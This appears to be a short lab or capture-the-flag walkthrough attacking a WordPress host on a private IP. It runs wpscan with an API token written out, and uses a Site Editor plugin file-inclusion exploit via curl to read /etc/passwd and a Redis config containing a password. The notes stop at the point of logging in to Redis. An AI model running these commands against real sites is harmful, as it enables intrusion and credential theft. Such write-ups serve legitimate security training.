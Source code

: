 There is a wordpress website running:
![](../attachment/6e5ae4a623d4c02bf956d66fe3199812.png)

Running wpscan:
```
wpscan --url http://192.168.159.166 --api-token qa7plsUQx372hiQc5FQUPOjcfhGUCQ2Dp8DQi4ate2k
```
![](../attachment/dcbd1e9c66ea0b5c31c86eb6f173379f.png)

Searching in searchsploit:
```
searchsploit Site Editor
```
![](../attachment/8f6fac2aebe5122004eae7389ec504ff.png)

Now we can exploit it:
![](../attachment/e13f0528501314a04bd535673240f4f0.png)
```
curl http://192.168.159.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
![](../attachment/9baa35c78ef4be5af78c75fb17d45949.png)
Now we can look for redis config files as it is running on port 6379
```
curl http://192.168.159.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
Then we can find the password in the file:
![](../attachment/63054be1aa06111002263acbf97eee22.png)

Now we can use this to login to redis on port [[6379]]